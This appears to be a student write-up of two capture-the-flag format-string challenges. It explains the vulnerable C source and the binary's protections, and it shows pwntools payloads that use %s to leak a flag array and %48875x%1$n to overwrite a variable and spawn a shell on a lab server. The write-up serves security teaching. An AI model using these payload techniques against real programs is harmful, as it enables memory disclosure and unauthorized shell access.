







# Format Strings

This CTF consisted in two very similar challenges. In each of them, we had to exploit a program with a format-string vulnerability in order to read an array which contained the flag, appropriately named "flag".

Each challenge came with a folder which contained a few files. The most relevant were the following:

* **main.c** - the source code of the vulnerable program
* **program** - the executable corresponding to the vulnerable program

## 1st flag

### Analysis

#### Source Code

Before attempting to exploit the program, we had to properly understand its source code. To that end, we inspected "main.c".

The script can be summarized as follows:

1. Create a global character array, "flag", with size 40.

```c
#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];
```

2. Open the file "flag.txt" and, if it exists, store its content in the "flag" array.

```c
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}
```

3. Create a character array named "buffer" with size 32.

```c
char buffer[32];
```

4. Read at most 32 bytes of user input and store them in "buffer".

```c
scanf("%32s", &buffer);
```

5. Call `printf()` with "buffer" as an argument.

```c
printf(buffer);
```

There was also the following if-statement at the end of "main.c":

```c
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```

If the condition were to succeed, it would print the "flag" array, thus revealing the flag. However, since 0 always evaluates to **false**, that cannot happen. So, we had to find another way to get "flag" to be printed.

#### Executable

When performing a PWN attack, not only is it important to understand the source code of the program but it is also crucial to ascertain how its executable was set up. That is, we should be aware of any security measures that could prevent us from exploiting it.

To that end, we ran `checksec`, which is a bash script for checking the properties of executables, as such:

```bash
$ checksec program
```

The output of the command above was the following:



As such, we acquired the following information:

* The program is a **little-endian** system, which means the least significant bytes are stored at the smallest memory addresses.
* There is a **canary** protecting the stack, which means buffer overflows will be detected.

> A **stack canary** is a secret value placed on the **stack** which changes every time the program is started. Prior to a function return, it is checked and, if it appears to have been modified, the program returns immediately.

* The executable is not a `PIE`, which means the positions of the executable are NOT **randomized**.

> A **Position-independent executable** (or `PIE` for short) is a binary that executes properly regardless of its **absolute address** (i.e. independently of where it is placed in memory).

So, taking into account our analysis of the source code and the executable, we realized that we could make the program print the "flag" array by inputing a format string that:
* Started with the **address** of "flag".
* Had a certain amount of `%x` format specifiers.
* Ended with a `%s` format specifier.

The logic behind this payload was simple: considering the call to `printf()` was unsanitized, we could exploit that by making the program successively print the values stored in memory using `%x` specifiers. Eventually, it would reach the memory region where our input was stored. Then, the final specifier, `%s`, would make the program treat our input as an **address** and print the content it points to.

### Preparing the Payload

Now that we were aware of what to do, we had to first figure out the amount of `%x` specifiers we would need to reach our input. We decided to do so by inputting a string followed by 100 `%x` specifiers.

Since the guide provided a script for crafting the payload - "exploit_example.py" - we opted to use it like so:

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

very_noticeable_value = 0xAABBCCDD
payload = very_noticeable_value.to_bytes(4, byteorder='little') + b"%x" * 100

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

**Note:** The 'b' before the string means the characters will be encoded as <u>octets</u> (integers ranging from 0 to 255), which is the format C uses for character encoding.

Upon running the script, we obtained the following output:



Much to our dismay, the first value that was printed from memory was our input. That meant that we would not need any `%x` specifiers after all. 

While at first we were quite surprised by this, after giving it some more thought, it made sense: it had to do with the layout of the **stack**. 

> The **stack frame** of a function is laid out as follows, in ascending order of memory addresses: <u>local variables</u>, <u>frame pointer</u>, <u>return address</u> and <u>function parameters</u>.

In fact, the stack frame of the `printf()` function would be located below the stack frame of the `main()` function. Since local variables are stored in the lower addresses, the value above `printf()` was none other than the only local variable `main()` declared - "buffer", the array used to store our input.

Our next step was to discover the address of the "flag" array. Thankfully, using `gdb`, we only had to type the command below:



With that figured out, we had all the information we needed to build our payload. We decided it would be the following:

```python
address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s"
```

### Attack!

We modified "exploit_example.py" so that it would send our payload to the server.

```python
p.sendline(payload)
```

Running "exploit_example.py", we got the following output:



Just as we predicted, the program leaked the first flag: `flag{7a33d6062ce2c9f4c81dce9e92fdb6d5}`.

## 2nd flag

### Analysis

#### Source Code

Our first task was to analyze the source code, which was once again present in "main.c". The behaviour of the program could be described like so:

1. Create a global variable, "key", with value 0.

```c
int key = 0;
```

**Note:** There is also a global character array, "pad", but it is not relevant to us.

2. Read at most 32 bytes of user input and store them in a character array named "buffer".

```c
char buffer[32];
...
scanf("%32s", &buffer);
```

3. Call `printf()` with "buffer" as an argument.

```c
printf(buffer);
```

4. Compare the value of "key" with `0xbeef`.

```c
if(key == 0xbeef) {
    ...
}
```

5. If the previous values are equal, launch a `bash` shell.

```c
system("/bin/bash");
```

This time, the flag was not stored in a variable. Upon reading the guide, we learned that it was in a file appropriately named "flag.txt", which we would be able to access if we somehow got the program to launch the shell.

Similarly to the previous challenge, the call to `printf()` was unsanitized, meaning we could potentially exploit the program by inputting format strings.

#### Executable

Before proceeding, we verified if the executable had any countermeasures by running `checksec`.



Analyzing the output led us to conclude that this program had the same properties as the one from the [last challenge](#executable), that is:

* The program is a **little-endian** system.
* There is a **canary** protecting the stack.
* Positions of the executable are NOT **randomized**.

Our suspicion was correct - the program could indeed be exploited using format strings. So, if we changed the value of "key" to **0xbeef** with our payload, the program would launch the shell, thus allowing us to open "flag.txt".

To do that, we would have to craft a payload that:
* Started with the **address** of "key".
* Had a `%x` specifier with padding.
* Ended with a `%n` format specifier.

The keys to our payload was the `%n` specifier.

> The `%n` format specifier assigns a variable the count of the number of characters used in the print statement before its occurrence.

To add the aforementioned padding, we would need the `%N` format specifier.

> The `%N` format specifier, where N is an integer, adds padding on the **left** of a format string. If N is negative, the padding is added on the **right**. It is important to note that N represents the **size** of the format string with padding.

### Preparing the Payload

Yet again, the stack frame of the `printf()` function was below the stack frame of the `main()` function. So, "buffer" - the local variable defined by `main()` - would be located directly above `printf()`, which meant no `%x` specifiers would be necessary to reach our input.

To discover the address of "key", we relied on `gdb` once more like so:



Next, we had to calculate the amount of padding we would need. We wanted "key" to equal **0xbeef**, which is 48879 in decimal base. Since 4 characters would already be used to specify the address of "key", we concluded that we would need 48879 - 4 = **48875** characters of padding.

With that, we had all the information we needed to concoct the payload. However, there was a problem: we couldn't simply use `%n` after `%x`. This is because `printf()` successively uses the values above it in memory everytime it needs to replace a specifier with a value. So, since `%x` came first on the payload, it would "consume" our input, which was undesirable.

To circunvent this, we used the `%N$n` format specifier:

> The `%N$n` format specifier, where N is an integer, is equivalent to the `%n` format specifier, except it forces the program to store the number of characters read in the **N-th** value.

**Note:** The `%N$...` can be used with other specifiers.

Thus, we could use `%1$n` to make the program store the number of characters read in "key".

With that settled, we were finally ready to concoct our payload. To save some time, we decided to reutilize the payload from the [previous challenge](#preparing-the-payload) with the modifications below:

```python
address = 0x804b324 # the address of "key"
payload = address.to_bytes(4, byteorder='little') + b"%48875x" + b"%1$n"
```

### Attack!

It was time to attack! The output after rereunning "exploit_example.py" was as follows:



While it looked weird due to the padding, it was clear that the shell was successfully launched. So, we opened "flag.txt" and found the second flag: `flag{f27d2028ca09517aaba3945962142608}`.
